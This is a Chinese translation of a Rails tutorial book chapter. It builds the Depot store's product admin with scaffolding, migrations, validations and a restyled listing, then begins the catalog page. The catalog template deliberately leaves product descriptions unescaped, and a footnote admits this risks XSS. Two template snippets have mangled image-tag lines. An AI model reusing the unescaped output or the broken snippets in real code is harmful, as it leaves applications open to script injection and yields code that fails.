

这相当无聊。它向我们显示了一个空的产品列表。让我们添加一些。点击 *新建产品* 链接，应该会出现一个表单。继续填写它。



⁶. 当你尝试运行 WEBrick 时，可能会收到一条错误消息，提示“Address already in use”。这仅仅意味着你的机器上已经有一个 Rails WEBrick 服务器在运行。如果你一直在跟着书中的示例操作，那很可能是第 4 章的 *Hello World!* 应用程序。找到它的控制台，然后使用 control-C 终止服务器。

> 5. 有时这个 `schema_info` 表可能会给你带来问题。例如，如果你在向文件中添加任何模式定义语句之前就创建了迁移源文件并运行 `db:migrate`，数据库会认为它已被更新，并且 `schema_info` 表将包含新的版本号。如果你随后编辑该现有迁移文件并再次运行 `db:migrate`，Rails 将不会知道要应用你的新更改。在这种情况下，通常最简单的方法是删除数据库，重新创建它，并重新运行你的迁移。


# Rails 脚手架

我们在一个非常简短的初始实现中涵盖了很多内容，因此让我们花一点时间更详细地研究一下最后一步。

Rails *脚手架* 是一个用于操作模型的自动生成框架。

当我们启动应用程序时，模型会检查数据库表，找出它有哪些列，并建立数据库数据与 Ruby 对象之间的映射。这就是为什么 *新建产品* 表单在出现时就已经知道标题、描述和图像字段——因为它们存在于数据库表中，所以被添加到了模型中。由脚手架生成的表单生成器可以向模型询问这些字段的信息，并利用它发现的信息来创建一个合适的 HTML 表单。

控制器处理来自浏览器的请求。一个应用程序可以有多个控制器。对于我们的 Depot 应用程序，我们最终很可能需要两个控制器，一个处理卖家的网站管理，另一个处理买家的体验。我们在 `Admin` 控制器中创建了产品维护脚手架，这就是为什么访问它的 URL 路径以 `admin` 开头。

> **David 说...**
> ---
> **我们最终难道不会替换掉所有脚手架吗？**
> 大多数情况下，是的。脚手架并非旨在成为应用程序开发的“一键搞定”方案。它是在你构建应用程序时提供支持*的*。当你在设计产品列表应该如何工作时，你会依赖脚手架生成的创建、更新和删除操作。然后你会替换生成的创建功能，同时保留其余操作。如此循环往复。
>
> 有时脚手架会足够用。如果你只是对为模型快速创建一个在线界面感兴趣，作为后端界面的一部分，你可能不在乎外观简陋。但这属于例外情况。不要期望脚手架能替代你作为程序员的需要，至少现在不能（或者永远不能）。
>
> 创建 Rails 应用程序时并非总是使用脚手架——事实上，随着你经验的增加，你可能会发现自己使用它们越来越少。脚手架可以用作应用程序的起点——它本身并不是一个完成的应用程序。想象一下建筑工地：脚手架帮助工人建造最终的建筑。通常在住户搬入前就会拆除。

让我们在进入项目的下一个迭代时，利用脚手架的这种临时性质。

### 6.2 迭代 A2：添加缺失的列

因此，我们向客户展示了我们基于脚手架的代码，并解释说它仍然相当粗糙。她很高兴看到这么快就能看到东西运行起来。她摆弄了一会儿后，注意到有些东西被遗漏了——我们的产品没有价格。

这意味着我们需要向数据库表添加一列。一些开发者（和数据库管理员）可能会通过启动一个实用程序并执行等效于以下命令的操作来添加列

```sql
alter table products add column price decimal(8,2);
```

但我们对迁移了如指掌。使用迁移来添加新列将为我们提供一个版本控制的模式历史记录，以及一个简单的重建方式。

我们将首先创建迁移。之前我们在创建产品模型时使用了一个自动生成的迁移。这次，我们必须明确地创建一个。我们将给它一个描述性的名称——这将帮助我们在一年后回到应用程序时记住每个迁移的作用。我们的约定是，当迁移创建表时使用动词 *create*，当向现有表添加列时使用 *add*。

```
depot> ruby script/generate migration add_price
exists  db/migrate
create  db/migrate/002_add_price.rb
```

注意生成的文件如何具有 `002` 的序列前缀。Rails 使用此序列号来跟踪哪些迁移已应用到模式以及哪些尚未应用（同时也告诉它应用迁移的顺序）。

打开迁移源文件，编辑 `up` 方法，插入将价格列添加到 products 表的代码，如下所示的代码。`down` 方法使用 `remove_column` 来删除该列。

```ruby
# Download depot_a/db/migrate/002_add_price.rb
class AddPrice < ActiveRecord::Migration
  def self.up
    add_column :products, :price, :decimal, :precision => 8, :scale => 2, :default => 0
  end

  def self.down
    remove_column :products, :price
  end
end
```

`:precision` 参数告诉数据库为价格列存储八位有效数字，而 `:scale` 选项表示其中两位将位于小数点之后。我们可以存储从 -999,999.99 到 +999,999.99 的价格。

这段代码还展示了迁移的另一个很棒的特性——我们可以访问底层数据库的功能来执行诸如设置列默认值之类的任务。不要过于担心这里使用的语法：我们稍后会深入讨论。

现在我们可以再次运行迁移。

```
depot> rake db:migrate
(in /Users/dave/Work/depot)
==  AddPrice: migrating ======================================================
-- add_column(:products, :price, :decimal, {:precision=>8, :scale=>2, :default=>0})
   -> 0.0258s
==  AddPrice: migrated (0.0264s) =============================================
```

Rails 知道数据库当前处于版本 001，因此只应用我们新创建的 002 迁移。

> **价格、美元和美分**
>
> 当我们定义模式时，我们决定将产品价格存储在 `decimal` 列中，而不是 `float`。这是有原因的。浮点数会受到舍入误差的影响：在购物车中放入足够多的产品，你可能会看到总价为 234.99 而不是 235.00。十进制数在数据库和 Ruby 中都存储为缩放整数，因此它们具有精确的表示。

这是很酷的部分。转到你的浏览器，它已经在与我们的应用程序通信。点击刷新，你现在应该会在产品列表中看到价格列。

还记得我们说过产品模型会去 products 表查找它应该有哪些属性吗？在开发模式下，Rails 会在浏览器每次发送请求时重新加载模型文件，因此模型始终反映当前的数据库模式。同时，控制器中的脚手架声明也会在每次请求时执行（因为控制器也会被重新加载），因此它可以使用这些模型信息来更新显示的屏幕。

在技术层面，这里没有真正的魔法。然而，这种能力对开发过程有着巨大的影响。你有多少次完全按照客户的要求实现了功能，却在最终展示给他们可工作的应用程序时被告知“哦，这不是我的意思”？大多数人发现，当他们可以动手操作时，更容易理解想法。你能够通过 Rails 将文字快速转化为可工作的应用程序的速度，意味着你离让客户操作他们的应用程序总是很近。这些短的反馈循环意味着你和客户都能更早地理解真正的应用程序，并且你在返工上浪费的时间也少得多。

### 6.3 迭代 A3：验证！

在使用第 2 次迭代的结果时，我们的客户注意到一些事情。如果她输入无效的价格或忘记设置产品描述，应用程序会欣然接受表单并向数据库添加一条记录。虽然缺少描述令人尴尬，但 0.00 美元的价格实际上会让她亏钱，因此她要求我们为应用程序添加验证。数据库中不应允许存在标题或描述字段为空、图像 URL 无效或价格无效的产品。

那么，我们将验证放在哪里？


模型层是代码世界与数据库之间的守门员。任何与我们应用程序相关的数据，无论是从数据库读出还是存入数据库，都必须先经过模型层。这使其成为进行所有数据验证的理想场所；无论数据来自表单还是来自应用程序内的某些程序化操作。如果模型在写入数据库前检查了数据，数据库就能免受错误数据的侵扰。

让我们看看模型类的源代码（位于 `app/models/product.rb`）。

```ruby
class Product < ActiveRecord::Base
end
```

看起来很简单，对吧？所有繁重的工作（数据库映射、创建、更新、搜索等）都由父类（`ActiveRecord::Base`，Rails 的一部分）完成。得益于继承的便利，我们的 `Product` 类自动获得了所有这些功能。

添加我们的验证应该会相当清晰。我们首先验证在将一行数据写入数据库之前，文本字段都不能为空。我们通过在现有模型中添加一些代码来实现这一点。

```ruby
class Product < ActiveRecord::Base
  validates_presence_of :title, :description, :image_url
end
```

`validates_presence_of` 方法是 Rails 的标准验证器。它检查给定的一个或多个字段是否存在且内容不为空。下一页的图 6.2 展示了如果我们尝试提交一个所有字段都为空的新产品会发生什么。效果相当令人印象深刻：出错的字段被高亮显示，并且错误在表单顶部以漂亮的列表形式汇总。仅一行代码就能做到这样，相当不错。你可能还注意到，在编辑并保存 `product.rb` 文件后，你不必重启应用程序来测试你的更改——正是先前导致 Rails 注意到我们 schema 变更的重新加载机制，也意味着它将始终使用我们代码的最新版本。

现在，我们想验证价格是一个有效的正数。我们将分两个阶段来解决这个问题。首先，我们将使用名字很贴切的 `validates_numericality_of` 方法来验证价格是一个有效的数字。

```ruby
validates_numericality_of :price
```

现在，如果我们添加一个价格无效的产品，相应的错误信息将会出现，如第 84 页的图 6.3 所示。

接下来，我们需要检查价格是否大于零。我们通过在 `Product` 模型类中编写一个名为 `validate` 的方法来实现。Rails 会在保存产品实例之前自动调用此方法，因此我们可以用它来检查字段的有效性。我们将其设为受保护方法，因为它不应用在模型上下文之外被调用。⁷

```ruby
protected
def validate
  errors.add(:price, "should be at least 0.01") if price.nil? || price < 0.01
end
```

如果价格小于一分，`validate` 方法会使用 `errors.add(...)` 来记录错误。这样做会阻止 Rails 将该行写入数据库。它也给我们的表单提供了一个向用户显示的友好消息。⁸ `errors.add` 的第一个参数是字段名，第二个是消息文本。

请注意，在比较价格与 `0.01` 之前，我们首先检查它是否为 `nil`。这很重要：如果用户将价格字段留空，浏览器将不会向我们的应用程序传递任何价格值，`price` 变量将不会被设置。如果我们尝试将这个 `nil` 值与数字进行比较，将会出错。

还有两项需要验证。首先，我们要确保每个产品的标题都是唯一的。在 `Product` 模型中再添加一行即可。唯一性验证将执行一个简单的检查，确保在 `products` 表中没有其他行的标题与我们即将保存的行的标题相同。

```ruby
validates_uniqueness_of :title
```

最后，我们需要验证输入的图片 URL 是否有效。我们将使用 `validates_format_of` 方法来实现，该方法可以使用正则表达式匹配字段。目前我们只检查 URL 是否以 `.gif`、`.jpg` 或 `.png` 结尾。⁹

```ruby
validates_format_of :image_url,
                    :with    => %r{\.(gif|jpg|png)$}i,
                    :message => "must be a URL for a GIF, JPG, or PNG image"
```

这样，在短短几分钟内，我们就添加了以下验证：

-   标题、描述和图片 URL 字段不为空。
-   价格是一个有效的数字且不小于 $0.01。
-   标题在所有产品中是唯一的。
-   图片 URL 看起来是合理的。

以下是更新后的 `Product` 模型的完整代码。

```ruby
# depot_b/app/models/product.rb
class Product < ActiveRecord::Base
  validates_presence_of :title, :description, :image_url
  validates_numericality_of :price
  validates_uniqueness_of :title
  validates_format_of :image_url,
                    :with    => %r{\.(gif|jpg|png)$}i,
                    :message => "must be a URL for a GIF, JPG, or PNG image"

  protected
  def validate
    errors.add(:price, "should be at least 0.01") if price.nil? || price < 0.01
  end
end
```

接近这个迭代周期的尾声，我们请客户试用应用程序，她高兴多了。虽然只花了几分钟，但添加验证这一简单举动，让产品维护页面看起来可靠多了。

### 6.4 迭代 A4：更美观的列表

我们的客户还有最后一个请求（客户似乎总是有最后一个请求）。所有产品的列表很丑。我们能把它“美化”一下吗？同时，既然要修改，能否在显示图片 URL 的同时，也把产品图片显示出来？

我们面临一个困境。作为开发者，我们被训练成对这类请求做出深吸一口气、心照不宣地摇摇头，并低声说“你想要什么？”的反应。但同时，我们也喜欢炫耀一下。最终，使用 Rails 做出这些改变很有趣，这一事实占了上风，于是我们启动了信赖的编辑器。

但接着我们面临第二个困境。到目前为止，我们编写的与显示产品列表相关的唯一代码是

```ruby
scaffold :product
```

这里几乎没有自定义视图的空间！我们使用了一个*动态脚手架*，它每次收到请求时都会自我配置。如果我们想查看脚手架中的实际视图代码，需要让 Rails 显式地生成它，创建一个*静态脚手架*。脚手架生成器接受两个参数：模型和控制器的名称。

```
depot> ruby script/generate scaffold product admin
    exists  app/controllers/
    exists  app/helpers/
    exists  app/views/admin/
    exists  test/functional/
dependency model
    exists  app/models/
    exists  test/unit/
    exists  test/fixtures/
      skip  app/models/product.rb
 identical  test/unit/product_test.rb
 identical  test/fixtures/products.yml
   create  app/views/admin/_form.rhtml
   create  app/views/admin/list.rhtml
   create  app/views/admin/show.rhtml
   create  app/views/admin/new.rhtml
   create  app/views/admin/edit.rhtml
overwrite app/controllers/admin_controller.rb? [Ynaqd] y
    force  app/controllers/admin_controller.rb
overwrite test/functional/admin_controller_test.rb? [Ynaqd] y
    force  test/functional/admin_controller_test.rb
 identical  app/helpers/admin_helper.rb
   create  app/views/layouts/admin.rhtml
   create  public/stylesheets/scaffold.css
```

哇！这么多操作。但基本上，它相当简单。它检查确保我们有一个模型文件，然后创建显示维护屏幕所需的所有视图文件。然而，当它处理到控制器时，它停下了。它注意到我们已经编辑了文件 `admin_controller`，并在用新版本覆盖之前请求我们的许可。我们对这个文件所做的唯一更改是添加了 `scaffold :product` 这行代码，而我们现在已经不需要它了，所以

---
⁷ MySQL 为 Rails 提供了足够的元数据，以了解 `price` 包含一个数字，因此 Rails 在内部将其存储为 `BigDecimal`。对于其他数据库，该值可能作为字符串返回，因此在使用它进行比较之前，你需要使用 `BigDecimal(price)`（或者如果想冒险，可以使用 `Float(price)`）将其转换。

⁸ 为什么针对一分进行测试，而不是零？嗯，因为可以在这个字段中输入像 `0.001` 这样的数字。由于数据库只存储小数点后两位数字，即使我们将其与零比较能通过验证，它最终在数据库中也会变成零。检查数字至少为一分，可以确保只有正确的值被存储。

⁹ 后来，我们可能会想改变这个表单，让用户从可用图片列表中选择，但我们仍然希望保留验证，以防止恶意用户直接提交错误数据。


#### 修改静态脚手架

我们输入了*Y*。它接着询问是否覆盖控制器的功能测试，我们再次同意了。

刷新浏览器后，你应该看不到页面显示有任何差异：静态脚手架添加的代码与动态脚手架即时生成的代码完全相同。然而，既然我们现在有了代码，就可以对其进行编辑。

文件 `app/views/admin/list.rhtml` 中的 Rails 视图生成了当前的产品列表。由脚手架生成器产生的源代码大致如下所示。

```erb
<h1>Listing products</h1>

<table>
  <tr>
    <% for column in Product.content_columns %>
      <th><%= column.human_name %></th>
    <% end %>
  </tr>

  <% for product in @products %>
    <tr>
      <% for column in Product.content_columns %>
        <td><%=h product.send(column.name) %></td>
      <% end %>
      <td><%= link_to 'Show', :action => 'show', :id => product %></td>
      <td><%= link_to 'Edit', :action => 'edit', :id => product %></td>
      <td><%= link_to 'Destroy', { :action => 'destroy', :id => product },
                      :confirm => 'Are you sure?',
                      :method => :post %></td>
    </tr>
  <% end %>
</table>

<%= link_to 'Previous page',
      { :page => @product_pages.current.previous } if @product_pages.current.previous %>
<%= link_to 'Next page',
      { :page => @product_pages.current.next } if @product_pages.current.next %>
<br />
<%= link_to 'New product', :action => 'new' %>
```

该视图使用 ERb 迭代 Product 模型中的列。它为 `@products` 数组中的每个产品创建一个表格行。（该数组由控制器中的 `list` 动作方法设置。）该行包含结果集中每个列的一个条目。

这段代码的动态特性很巧妙，因为这意味着显示将自动更新以适应新列。然而，它也使得显示有些通用化。所以，让我们修改这段代码，使其产生更美观的输出。

#### 使用测试数据

不过，在我们深入之前，最好能有一套一致的测试数据可供使用。我们*可以*使用脚手架生成的界面，并在浏览器中输入数据。但是，如果我们这样做，将来在我们代码库上工作的开发人员也必须做同样的事情。而且，如果我们作为一个团队在这个项目上工作，团队的每个成员都必须输入自己的数据。如果我们能以一种更可控的方式将数据加载到我们的表中，那将是很理想的。事实证明我们可以。迁移来救场了！

让我们创建一个仅包含数据的迁移。`up` 方法向我们的 `products` 表添加了三行包含典型数据的记录。`down` 方法清空该表。迁移的创建方式与其他任何迁移一样。

```bash
depot> ruby script/generate migration add_test_data
exists  db/migrate
create  db/migrate/003_add_test_data.rb
```

然后我们添加代码来填充 `products` 表。这使用了 `Product` 模型的 `create` 方法。以下是该文件的一个摘录。（与其手动输入迁移，你可能想从网上提供的示例代码中复制文件。[^10] 将其复制到你应用程序的 `db/migrate` 目录中。顺便将图片[^11] 和文件 `depot.css`[^12] 复制到相应的位置（你应用程序的 `public/images` 和 `public/stylesheets`）。

Download [depot_c/db/migrate/003_add_test_data.rb](http://media.pragprog.com/titles/rails2/code/depot_c/db/migrate/003_add_test_data.rb)

```ruby
class AddTestData < ActiveRecord::Migration
  def self.up
    Product.delete_all
    Product.create(:title => 'Pragmatic Version Control',
      :description =>
        %{<p>
          This book is a recipe-based approach to using Subversion that will
          get you up and running quickly--and correctly. All projects need
          version control: it's a *foundational* piece of any project's
          infrastructure. Yet half of all project teams in the U.S. don't use
          any version control at all. Many others don't use it well, and end
          up experiencing time-consuming problems.
        </p>},
      :image_url => '/images/svn.jpg',
      :price => 28.50)
      # . . .
  end

  def self.down
    Product.delete_all
  end
end
```

[^10]: http://media.pragprog.com/titles/rails2/code/depot_c/db/migrate/003_add_test_data.rb
[^11]: http://media.pragprog.com/titles/rails2/code/depot_c/public/images
[^12]: http://media.pragprog.com/titles/rails2/code/depot_c/public/stylesheets/depot.css

（注意这段代码使用了 %{...}。这是双引号字符串字面量的替代语法，便于处理长字符串。）

运行迁移将用测试数据填充你的 products 表。

```bash
depot> rake db:migrate
```

#### 设置产品列表样式

现在让我们把产品列表整理一下。这里有两件事。最终我们会编写一些使用 CSS 来设置呈现样式的 HTML。但为了使其工作，我们需要告诉浏览器获取样式表。

我们需要一个地方来放置我们的 CSS 样式定义。所有脚手架生成的应用程序都使用 `public/stylesheets` 目录中的样式表 `scaffold.css`。与其修改这个文件，我们创建了一个新的应用程序样式表 `depot.css`，并将其放在同一目录中。该样式表的完整列表从第 679 页开始。

最后，我们需要将这些样式表链接到我们的 HTML 页面。如果你查看我们目前创建的 `.rhtml` 文件，你不会找到任何对样式表的引用。你甚至找不到通常包含此类引用的 HTML `<head>` 部分。相反，Rails 保留了一个单独的文件，用于为所有管理页面创建标准页面环境。这个名为 `admin.rhtml` 的文件是一个 Rails 布局文件，位于 `layouts` 目录中。

```erb
Download depot_b/app/views/layouts/admin.rhtml
<html>
<head>
  <title>Admin: <%= controller.action_name %></title>
  <%= stylesheet_link_tag 'scaffold' %>
</head>
<body>

<p style="color: green"><%= flash[:notice] %></p>

<%= yield :layout %>

</body>
</html>
```

第四行加载样式表。它使用 `stylesheet_link_tag` 创建一个 HTML `<link>` 标签，该标签加载标准的脚手架样式表。我们只需在这里添加我们的 `depot.css` 文件（省略 `.css` 扩展名）。不要担心文件的其余部分：我们稍后会处理。

```erb
<%= stylesheet_link_tag 'scaffold', 'depot' %>
```

趁我们在这里，我们将在文件顶部添加一个 `<!DOCTYPE...` 指令。没有这一行，Internet Explorer 会以怪异模式运行，这与网络标准不兼容。我们布局文件的顶部现在看起来像这样。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
  <title>Admin: <%= controller.action_name %></title>
  <%= stylesheet_link_tag 'scaffold', 'depot' %>
</head>
```

#### 创建新模板

现在我们的样式表已经全部就位，我们将使用一个基于简单表格的模板，编辑 `app/views/admin` 中的 `list.rhtml` 文件，替换动态列显示。

```erb
<div id="product-list">
  <h1>Product Listing</h1>

  <table cellpadding="5" cellspacing="0">
    <% for product in @products %>
      <tr valign="top" class="<%= cycle('list-line-odd', 'list-line-even') %>">

        <td>
          "/>
        </td>

        <td width="60%">
          <span class="list-title"><%= h(product.title) %></span><br />
          <%= h(truncate(product.description, 80)) %>
        </td>

        <td class="list-actions">
          <%= link_to 'Show', :action => 'show', :id => product %><br/>
          <%= link_to 'Edit', :action => 'edit', :id => product %><br/>
          <%= link_to 'Destroy', { :action  => 'destroy', :id => product },
                                      :confirm => "Are you sure?",
                                      :method  => :post %>
        </td>
      </tr>
    <% end %>
  </table>
</div>

<%=  if @product_pages.current.previous
        link_to("Previous page", { :page => @product_pages.current.previous })
      end
%>
<%= if @product_pages.current.next
      link_to("Next page", { :page => @product_pages.current.next })
      end
%>

<br />

<%= link_to 'New product', :action => 'new' %>
```


**`:method => :post` 是怎么回事？**

你可能已经注意到，脚手架生成的“删除”链接包含了参数 `:method => :post`。此参数在 Rails 1.2 中引入，让我们得以一窥 Rails 的未来。

浏览器通过 HTTP 与服务器通信。HTTP 定义了一组浏览器可以使用的方法（动词），并指定了每种方法的适用场景。例如，一个普通的超链接使用 HTTP GET 请求。GET 请求被 HTTP 规定用于检索数据：它不应该产生任何副作用。技术术语是 *幂等*——你应该能够多次发出相同的 GET 请求，并且每次都得到相同的结果。

但如果我们使用 GET 请求作为链接来执行删除产品的 Rails 操作，它就不再是幂等的了：它第一次会成功，但后续点击会失败。因此，Rails 团队更改了脚手架代码生成器，强制链接发出 HTTP POST 请求。这些 POST 请求被允许产生副作用，因此更适合用于删除资源。

随着时间的推移，我们可以预期 Rails 会对 HTTP 的正确使用变得越来越严格。

即使这个简单的模板也使用了许多 Rails 内置功能。

- 列表中的行具有交替的背景颜色。这是通过将每行的 CSS 类设置为 `list-line-even` 或 `list-line-odd` 来实现的。Rails 的辅助方法 `cycle` 执行此操作，它在连续的行中自动在这两个样式名之间切换。
- `h` 方法用于转义产品标题和描述中的 HTML。这就是为什么你可以在描述中看到标记：它们是被转义并显示出来的，而不是被解释执行。
- 我们还使用了 `truncate` 辅助方法，只显示描述的前 80 个字符。
- 看看 `link_to 'Destroy'` 这一行。注意它有参数 `:confirm => 'Are you sure?'`。如果你点击此链接，Rails 会安排你的浏览器在继续执行链接并删除产品之前弹出一个确认对话框。（另外，请参阅本页的侧边栏，了解有关此操作的一些信息。）

所以，我们已经向数据库加载了一些测试数据，重写了显示产品列表的 `list.rhtml` 文件，创建了 `depot.css` 样式表，并通过编辑布局 `admin.rhtml` 将该样式表链接到我们的页面。启动浏览器，指向 `localhost:3000/admin/list`，生成的产品列表可能看起来像下面这样。



静态 Rails 脚手架提供了真实的源代码，这些文件我们可以修改并立即看到结果。动态和静态脚手架的结合为我们提供了以敏捷方式开发所需的灵活性。我们可以自定义特定的源文件，而让其他文件保持不变——变更既是可能的，也是局部化的。

所以，我们自豪地向客户展示了她的新产品列表，她很满意。任务完成。吃午饭时间到了。

#### 我们刚刚做了什么

在本章中，我们为商店应用程序奠定了基础。

- 我们创建了一个开发数据库，并配置了 Rails 应用程序以访问它。
- 我们使用迁移来创建和修改开发数据库中的模式，并加载测试数据。
- 我们创建了 `products` 表，并使用脚手架生成器编写了一个维护它的应用程序。
- 我们为该生成的代码添加了验证。
- 我们用更漂亮的东西重写了通用的视图代码。

我们没有涵盖的一个主题是产品列表的分页。脚手架生成器自动使用了 Rails 内置的分页辅助功能。它将产品列表分成每页 10 条，并自动处理页面间的导航。我们从 [479](http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime) 页开始更深入地讨论这一点。

#### 动手试一试

这里有一些你可以自己尝试的东西。

- 方法 `validates_length_of`（在 [370](http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime) 页描述）检查模型属性的长度。向产品模型添加验证，以检查标题长度是否至少为 10 个字符。
- 更改与某个验证关联的错误消息。
- 将产品价格添加到 `list` 操作的输出中。

（你会在 [http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime](http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime) 找到提示）

在本章中，我们将看到

- 编写我们自己的视图
- 使用布局装饰页面
- 集成 CSS
- 使用辅助方法
- 将页面链接到操作

# 第 7 章

## 任务 B：目录显示

总而言之，到目前为止这是成功的一天。我们从客户那里收集了初始需求，记录了基本流程，初步设计了所需的数据，并为 Depot 应用程序的产品创建了维护页面。我们甚至设法在上午结束时吃了一顿像样的午餐。

这样得到了补充，我们继续第二个任务。我们与客户讨论了优先事项，她说想从买家的角度看看应用程序是什么样子。我们的下一个任务是创建一个简单的目录显示。

从我们的角度来看，这也非常有意义。一旦我们安全地将产品存入数据库，显示它们应该相当简单。这也为我们以后开发购物车部分代码奠定了基础。

我们还应该能够利用在产品维护任务中所做的工作——目录显示实际上只是一个美化过的产品列表。那么，让我们开始吧。

### 7.1 迭代 B1：创建目录列表

在第 78 页，我们说过将为这个应用程序使用两个控制器类。我们已经创建了管理控制器（Admin controller），供卖家管理 Depot 应用程序使用。现在是时候创建第二个控制器了，这个控制器与付费客户交互。我们称之为 Store（商店）。

```
depot> ruby script/generate controller store index
exists  app/controllers/
exists  app/helpers/
create  app/views/store
exists  test/functional/
create  app/controllers/store_controller.rb
create test/functional/store_controller_test.rb
create app/helpers/store_helper.rb
create app/views/store/index.rhtml
```

就像上一章我们使用生成工具创建管理产品的控制器一样，这里我们要求它创建一个新的控制器（在文件 `store_controller.rb` 中的 StoreController 类），其中包含一个单独的操作方法，`index`。

那么，为什么我们选择将第一个方法命名为 `index` 呢？嗯，就像大多数 Web 服务器一样，如果你调用一个 Rails 控制器而没有指定一个明确的操作，Rails 会自动调用 `index` 操作。实际上，让我们试试看。将浏览器指向 [http://localhost:3000/store](http://localhost:3000/store)，我们的网页就弹出来了。[^1]



它可能不会让我们变得富有，但至少我们知道一切都已正确连接。页面甚至告诉我们在哪里可以找到绘制此页面的模板文件。

让我们首先显示数据库中所有产品的简单列表。我们知道最终必须更复杂，将它们分成类别，但这将让我们开始。

我们需要从数据库中获取产品列表，并使其可供视图中的代码使用以显示表格。这意味着我们必须更改 `store_controller.rb` 中的 `index` 方法。我们希望以一个合适的抽象级别进行编程，所以我们就假设可以向模型请求可销售产品的列表。

```ruby
# depot_d/app/controllers/store_controller.rb
class StoreController < ApplicationController
  def index
    @products = Product.find_products_for_sale
  end
end
```

1.  如果你看到的是 "no route found to match..." 的消息，你可能需要在此时停止并重新启动你的应用程序。在你运行 `script/server` 的控制台窗口中按 `control-C`，然后重新运行该命令。


显然，这段代码目前无法运行。我们需要在 `product.rb` 模型中定义 `find_products_for_sale` 方法。接下来的代码使用了 Rails 的 `find` 方法。参数 `:all` 告诉 Rails 我们想要匹配给定条件的所有行。我们询问了客户是否对列表的排序有偏好，我们共同决定尝试按字母顺序显示产品，因此代码按 `title` 进行排序。

```ruby
class Product < ActiveRecord::Base

  def self.find_products_for_sale
    find(:all, :order => "title")
  end

  # 验证相关内容...
end
```

`find` 方法返回一个数组，其中包含数据库返回的每一行对应的 `Product` 对象。我们使用其可选的 `:order` 参数，让这些行按其 `title` 排序。`find_products_for_sale` 方法只是将这个数组传回给控制器。请注意，我们通过在定义中的方法名前加上 `self.`，将其设为了类方法。我们这样做是因为我们希望在整个类上调用它，而不是在任何特定实例上调用——我们将通过 `Product.find_products_for_sale` 来使用它。

现在我们需要编写视图模板。为此，请编辑 `app/views/store` 目录中的 `index.rhtml` 文件。（请记住，视图的路径名是由控制器名称 `store` 和操作名称 `index` 构建的。`.rhtml` 部分表示这是一个 ERb 模板。）

```erb
<h1>您的实用商品目录</h1>

<% for product in @products -%>
  <div class="entry">
    "/>
    <h3><%=h(product.title) %></h3>
    <%= product.description %>
    <span class="price"><%= product.price %></span>
  </div>
<% end %>
```

这一次，我们使用了 `h(string)` 方法来转义产品标题中的任何 HTML 元素，但没有用它来转义描述。这使我们可以添加 HTML 样式，让描述对我们的客户更具吸引力。²

² 这个决定开启了一个潜在的安全漏洞，但由于产品描述是由我们公司的人创建的，我们认为风险极小。详情请参阅第 607 页的第 26.5 节 *保护您的应用免受 XSS 攻击*。



**图 7.1：我们的第一个（简陋的）目录页面**

通常，要养成在模板中输入 `<%= h(...) %>`，然后在确认安全后再移除 `h` 的习惯。

点击刷新会显示 **图 7.1** 中的界面。它相当简陋，因为我们还没有包含 CSS 样式表。当我们思考这个问题时，客户恰好路过，她指出她还想在面向公众的页面上看到一个像样的标题和侧边栏。

在现实世界的这个阶段，我们可能需要召集设计人员——我们都见过太多由程序员设计的网站，不想再给世界添加另一个。但实用的网页设计师正在某个海滩上寻找灵感，要到今年晚些时候才会回来，所以让我们现在先放一个占位符。是时候进行一次迭代了。

### 7.2 迭代 B2：添加页面布局

典型网站中的页面通常共享相似的布局——设计师会创建一个标准模板，用于放置内容。我们的工作是为每个商店页面添加这种页面装饰。

幸运的是，在 Rails 中我们可以定义布局。*布局* 是一个模板，我们可以将额外的内容流入其中。在我们的案例中，我们可以为所有商店页面定义一个单一的布局，并将目录页面插入该布局。稍后，我们可以对购物车和结账页面做同样的事情。因为只有一个布局，我们可以通过编辑一个文件来更改我们网站这一整个部分的外观和风格。这让我们对现在放置占位符感觉更好；我们可以在设计师最终从岛上回来时更新它。

